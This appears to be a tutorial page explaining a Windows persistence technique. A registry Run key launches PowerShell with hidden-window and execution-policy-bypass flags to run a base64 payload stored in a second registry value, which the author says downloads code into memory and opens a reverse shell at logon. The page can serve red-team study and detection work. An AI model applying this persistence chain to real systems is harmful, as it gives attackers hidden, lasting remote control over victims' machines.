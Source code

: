 > The first string will be called `<DNSERVICE>` (we will use random names, it doesn't matter) and the second string will be called `<VMAINDNS>`. 

> Let's understand what function each value has.

#### `DNSERVICE` / `HKLM:SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

```
"C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe" -c "$x=$((gp HKLM:SOFTWARE\Microsoft\Windows\CurrentVersion VMAINDNS).VMAINDNS);powershell -W 1 -NonI -NoP -ep bypass -enc $x"
```
---

```
"C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe" - Open a `64 bit` powershell process.

"-c" - Execute commands
```

> Check it manually from cmd

```
C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -c "[Environment]::is64bitprocess"
```

<img src = "https://user-images.githubusercontent.com/84678370/143898257-0dd8812f-eec6-4857-81b4-19a841392215.png" width="500" height="300" />

> Can be sure that we are in a 64-bit process.

> If for any reason you want to be in a 32-bit process, just use the following path

```
C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe
```

> Let's continue

```
$x=$((gp HKLM:SOFTWARE\Microsoft\Windows\CurrentVersion VMAINDNS).VMAINDNS);
```

> Simple, we create a variable `$x=$((..))` in which we are going to "store" a sub-expression `$((..))`, inside will be the `gp` function `(Get-ItemProperty)` this function is necessary to "query" what is stored in the second value of the string `(VMAINDNS)`, there is the download instruction of our payload (all encoded in base64) that we will launch with powershell to load it in memory and receive a reverse shell (all this when the user logs into the operating system). 

- <a href = "https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-itemproperty?view=powershell-7.2">__Docs Get-ItemProperty__

```
gp - Gets the properties of a specified item.
```

> Again you can query it, but this time from powershell

```
gp HKLM:SOFTWARE\Microsoft\Windows\CurrentVersion VMAINDNS
```
